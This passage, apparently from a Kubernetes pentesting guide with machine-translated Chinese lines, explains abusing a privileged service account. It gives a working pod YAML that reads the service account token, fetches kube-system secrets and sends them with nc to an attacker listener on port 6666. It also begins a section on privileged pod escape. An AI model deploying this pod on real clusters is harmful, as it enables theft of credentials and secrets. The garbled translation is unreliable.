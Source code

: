 ![](https://www.cyberark.com/wp-content/uploads/2018/12/rolebinding\_with\_cluster\_admin\_clusterrole-1024x545.png)

！

The attacker can create a malicious pod that will use the privileged service. Then, abusing the service token, it will ex-filtrate the secrets:

攻击者可以创建一种恶意POD，该POD将使用特权服务。 然后，滥用服务令牌，它将前筛选秘密：

![](https://www.cyberark.com/wp-content/uploads/2018/12/pods\_yaml\_with\_autoamountServiceAccountToken-1024x345.png)

！

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: alpine
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
```

In the previous image note how the _bootstrap-signer service is used in_ `serviceAccountname`_._

在上一个图像中，请注意如何使用_bootstrap-signer Service in _`ServiceAccountName'_._

So just create the malicious pod and expect the secrets in port 6666:

因此，只需创建恶意豆荚，并期待港口6666中的秘密：

![](<../../../.gitbook/assets/image (464).png>)

### **Pod Create & Escape**

The following definition gives all the privileges a container can have:

以下定义赋予容器可以拥有的所有特权：

* **Privileged access** (disabling protections and setting capabilities)

***特权访问**（禁用保护和设置功能）
* **Disable namespaces hostIPC and hostPid** that can help to escalate privileges

***禁用名称空间hostipc和hostpid **可以帮助升级特权
* **Disable hostNetwork** namespace, giving access to steal nodes cloud privileges and better access to networks
